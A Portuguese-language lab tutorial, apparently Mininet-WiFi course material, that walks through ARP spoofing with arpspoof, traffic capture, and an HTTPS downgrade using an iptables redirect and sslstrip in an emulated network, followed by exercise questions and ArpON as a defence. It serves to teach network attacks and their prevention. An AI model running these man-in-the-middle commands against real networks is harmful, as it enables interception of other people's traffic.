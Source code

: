************
ARP Spoofing
************
 
ARP Spoofing e Downgrade de Protocolo
-------------

.. Note::
    **Nesta demo você irá aprender como realizar o ataque de ARP Spoofing e também como realizar o downgrade de protocolo:** 

    **Requisitos:** 
    - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
    - dsniff
    - arpon
    - sslstrip
    - curl
    
    **A VM disponível na página do código-fonte do Mininet-WiFi possui todos os requisitos necessários para reprodução deste documento**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python
    #!/usr/bin/python

    '''@author: Ramon Fontes
       @email: ramon.fontes@imd.ufrn.br'''

    from mininet.log import setLogLevel, info
    from mn_wifi.node import OVSKernelAP
    from mn_wifi.link import wmediumd
    from mn_wifi.cli import CLI
    from mn_wifi.net import Mininet_wifi


    def topology():
        "Create a network."
        net = Mininet_wifi()

        info("*** Creating nodes\n")
        ap1 = net.addAccessPoint('ap1', ssid='new-ssid', mode='g',
                                 channel='1', position='10,10,0',
                                 failMode="standalone")
        sta1 = net.addStation('sta1', position='10,20,0')
        sta2 = net.addStation('sta2', position='10,30,0')

        info("*** Configuring wifi nodes\n")
        net.configureWifiNodes()

        info("*** Starting network\n")
        net.build()
        net.addNAT().configDefault()
        ap1.start([])

        sta2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

        info("*** Running CLI\n")
        CLI(net)

        info("*** Stopping network\n")
        net.stop()


    if __name__ == '__main__':
        setLogLevel('info')
        topology()


Neste tutorial, vamos simular os passos ilustrados na figura de forma a mostrar na prática como ocorre o ataque de ARP Spoofing. Para tanto, vamos considerar executar o script acima. 

Considerando que o nome do arquivo seja `arp.py` você deve executá-lo da seguinte forma:

.. code:: console
    sudo python arp.py
    

Em seguida, faremos uma tentativa de ping a partir de `sta1` para o endereço 8.8.8.8.

.. code:: console
    mininet-wifi> sta1 ping -c1 8.8.8.8

    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=118 time=68.8 ms
    --- 8.8.8.8 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 68.893/68.893/68.893/0.000 ms


Como é possível perceber o ping foi realizado com sucesso. Agora, vamos verificar a tabela ARP de `sta1`. Na tabela deverá constar o endereço IP e também o endereço MAC do gateway padrão de `sta1`.


.. code:: console
    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 0a:1e:54:0e:66:96 [ether] on sta1-wlan0


Então, vamos simular o ataque de ARP Spoofing e fazer com que `sta1` entenda que o seu gateway na verdade é `sta2`. Primeiro, abra 2 (dois) terminais para `sta2`.

.. code:: console
    mininet-wifi> xterm sta2 sta2


Então, no terminal de `sta2` execute o arpspoof, conforme abaixo.

.. code:: console
    sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3


O comando acima induz 10.0.0.1, que é a vítima, a entender que 10.0.0.2, ou seja, `sta2`, representa o endereço do gateway padrão. 

Então, após alguns segundos verificamos novamente a tabela ARP de `sta1`.

.. code:: console
    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
    ? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0


Aqui, já podemos notar que o endereço MAC do gateway padrão já não é mais o mesmo do identificado anteriormente. 

Agora, realizamos um novo ping de `sta1` para o endereço público 8.8.8.8, ao mesmo tempo em que utilizamos o tcpdump no outro terminal de `sta2` para verificar se `sta2` está recebendo todo tráfego enviado gratuitamente pela vítima.

.. code:: console
    sta2# tcpdump -i sta2-wlan0
    20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 8, length 64
    20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
    20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
    20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 9, length 64
    20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
    20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
    20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64


.. code:: console
    mininet-wifi> sta1 ping -c10 8.8.8.8


Após alguns pacotes enviados por `sta1` é possível notar que `sta2` passou a receber os pacotes enviados por `sta1`, pois `sta1` passou a entender que `sta2` seria o verdadeiro gateway padrão. A partir deste momento, `sta2`, o atacante, pode inclusive utilizar de simples ferramentas como `sslstrip` para realizar ataques em cima do protocolo HTTPS (Hyper Text Transfer Protocol Secure) via downgrade de protocolo.


Para interceptar o tráfego não criptografado, é necessário fazer o downgrade da conexão da vítima de HTTPS para HTTP. Isso é possível através do `sslstrip`. Primeiro, é necessário redirecionar o tráfego de saída na porta 80 para 8080 e, em seguida, iniciar o `sslstrip` na porta 8080.

.. code:: console
    mininet-wifi> xterm sta2


Já no terminal aberto de `sta2` digite:

.. code:: console
    sta2# iptables -t nat -p tcp -A PREROUTING --destination-port 80 -j REDIRECT --to-port 8080


E depois:

.. code:: console
    sta2# sslstrip -l 8080

    sslstrip 0.9 by Moxie Marlinspike running...


Na máquina da vítima, use o `curl` para enviar uma solicitação GET para http://globo.com.

.. Note::
   Caso obter algum erro nesta etapa, tente realizar um ping para globo.com a partir de sta1. Se não houver êxito no ping adicione entrada de servidor DNS em /etc/resolv.conf também a partir de sta1.


.. code:: console
    mininet-wifi> sta1 curl -vvv http://globo.com
    *   Trying 186.192.90.12:80...
    * TCP_NODELAY set
    * Connected to globo.com (186.192.90.12) port 80 (#0)
    > GET / HTTP/1.1
    > Host: globo.com
    > User-Agent: curl/7.68.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 301 Moved Permanently
    < Date: Wed, 03 Mar 2021 00:03:21 GMT
    < Content-Type: text/html
    < Content-Length: 178
    < Connection: keep-alive
    < Cache-Control: max-age=600
    < Location: http://www.globo.com/
    < 
    <html>
    <head><title>301 Moved Permanently</title></head>
    <body bgcolor="white">
    <center><h1>301 Moved Permanently</h1></center>
    <hr><center>nginx</center>
    </body>
    </html>
    * Connection #0 to host globo.com left intact
    

Como é possível notar, a solicitação foi redirecionada para http://www.globo.com/. Outro GET nesta nova URL irá retornar o conteúdo da página não criptografado. 

O ataque agora está completo: podemos visualizar o tráfego não criptografado entre a vítima e o site vulnerável usando HTTPS.


.. Note::
    1. :question: Comente sobre o ataque de downgrade de protocolo. Diga  como ele funciona.
    2. :question: O que seria o HTTP Strict Transport Security (HSTS) e como ele seria útil no cenário prático realizado acima?
    3. :question: Anexe duas imagens do wireshark onde, do lado do atacante, mostre requisições de tráfego criptografado e também requisições de tráfego descriptografado.


Como evitar o ARP Spoofing
-------------

O ataque de ARP Spoofing pode ser evitado com o uso de ferramentas como ARP handler inspection (ArpON). Por exemplo, você pode executar o ArpON a partir de `sta1`, conforme abaixo:

.. code:: console
    mininet-wifi> xterm sta1
    arpon -D -i sta1-wlan0


Caso houver um ataque em execução será possível observá-lo após executar o arpon, conforme ilustrado abaixo:


.. code:: console
    arpon -D -i sta1-wlan0
    Oct 30 10:01:41 [INFO] Start DARPI on sta1-wlan0
    Oct 30 10:01:41 [INFO] CLEAN, 10.0.0.3 was at 52:1e:e8:62:58:11 on sta1-wlan0
    Oct 30 10:01:53 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
    Oct 30 10:01:53 [INFO] ALLOW, 10.0.0.3 is at 52:1e:e8:62:58:11 on sta1-wlan0
    Oct 30 10:01:55 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
